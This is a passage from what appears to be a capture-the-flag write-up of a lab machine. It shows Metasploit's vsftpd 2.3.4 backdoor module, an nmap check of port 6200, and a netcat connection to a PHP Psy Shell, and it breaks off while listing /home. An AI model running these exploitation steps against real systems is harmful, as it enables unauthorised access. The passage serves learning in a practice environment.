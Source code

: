 ```
msf5 exploit(unix/ftp/vsftpd_234_backdoor) > show options

Module options (exploit/unix/ftp/vsftpd_234_backdoor):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS                   yes       The target address range or CIDR identifier
   RPORT   21               yes       The target port (TCP)


Exploit target:

   Id  Name
   --  ----
   0   Automatic
```
The only thing that I have to set is the RHOSTS. Running the exploit I see that the exploit completed but no session was created
```
msf5 exploit(unix/ftp/vsftpd_234_backdoor) > set RHOSTS 10.10.10.131
RHOSTS => 10.10.10.131
msf5 exploit(unix/ftp/vsftpd_234_backdoor) > run

[*] 10.10.10.131:21 - Banner: 220 (vsFTPd 2.3.4)
[*] 10.10.10.131:21 - USER: 331 Please specify the password.
[*] Exploit completed, but no session was created.
```
If I run the exploit a second time I get a different message. It says that the port for the backdoor is open but it's not a shell which most likely means it's not a bash shell.
```
msf5 exploit(unix/ftp/vsftpd_234_backdoor) > run

[*] 10.10.10.131:21 - The port used by the backdoor bind listener is already open
[-] 10.10.10.131:21 - The service on port 6200 does not appear to be a shell
[*] Exploit completed, but no session was created.
```
Running an Nmap scan on port 6200 will show that the port is now open
```
# nmap -p 6200 10.10.10.131
Starting Nmap 7.80 ( https://nmap.org ) at 2019-09-18 12:30 EDT
Nmap scan report for 10.10.10.131
Host is up (0.096s latency).

PORT     STATE SERVICE
6200/tcp open  lm-x

Nmap done: 1 IP address (1 host up) scanned in 0.79 seconds
```
I can use <b>netcat</b> to connect to the backdoor. Once in I are greeted with a Psy Shell which is basically a PHP Shell
```
# nc -nv 10.10.10.131 6200
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Connected to 10.10.10.131:6200.
Psy Shell v0.9.9 (PHP 7.2.10 — cli) by Justin Hileman
```
To navigate this shell I will need to use php commands. Listing the <b>/home</b> directory will reveal multiple different users
```
scandir('/home');
=> [
     ".",
     "..",
     "berlin",
     "dali",
```